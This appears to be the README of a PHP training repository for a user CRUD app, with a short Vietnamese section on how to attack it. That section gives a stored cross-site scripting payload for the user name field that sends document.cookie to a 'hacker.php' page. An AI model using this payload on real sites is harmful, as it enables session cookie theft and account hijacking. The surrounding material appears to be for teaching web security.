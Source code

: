 # Cách tấn công
- ấn vào Add new user -> phần name điền như sau -> `<script>window.location.href = "hacker.php?cookie=" + document.cookie</script>` -> Submit

# php-training
* Repository: https://github.com/tailieuweb/training-php

## System requirements
* Apache: 2.4
* MySQL: 5.7 ; MariaDB: 10.x
* PHP: 7.x, 8.x
* Wamp/Xampp

# Features
- CRUD user